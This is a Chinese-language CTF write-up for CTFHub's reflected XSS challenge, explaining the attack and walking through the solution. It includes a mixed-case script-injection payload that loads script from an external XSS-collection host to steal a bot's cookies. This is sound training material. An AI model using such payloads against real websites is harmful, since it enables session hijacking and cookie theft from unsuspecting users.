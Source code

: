 ```yaml
---
title: Web - 反射型 XSS
description: CTFHub | 技能树 | Web
---
```


## 反射型 XSS

反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

本题需要掌握的是对客户端 Cookies 的窃取。

## 解题思路

- 在 [XSS 平台](https://xsshs.cn/xss.php?do=login) 注册并登录
- 创建项目<br>
![项目名称、描述随意](img/ctfhub_reflected_xss01.jpg)
- 配置代码中选择默认模块就可以了(<ゝωΦ)<br>
![无 keepsession](img/ctfhub_reflected_xss02.jpg)
- 再来看看题目对应的网站，在`What's your name`处填入内容并提交，提交内容会显示在页面上<br>
![咕咕鸡](img/ctfhub_reflected_xss03.jpg)
- 使用`<h3>`标签进行测试，证明显示的内容没有被过滤<br>
![其他标签也可以](img/ctfhub_reflected_xss04.jpg)
- `Send URL to Bot`应该是充当其他用户来对提供的链接进行访问
- 将以下内容粘贴至`What's your name`并提交表单<br>
![</tExtArEa>'"><sCRiPt sRC=//xsshs.cn/GPFK></sCrIpT>](img/ctfhub_reflected_xss05.jpg)
- 提交表单后，复制链接并粘贴到`Send URL to Bot`提交，即可在项目内容中查看到 flag<br>
![完成！](img/ctfhub_reflected_xss06.jpg)

## 参考资料

- [XSS Cross-site Scripting Attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)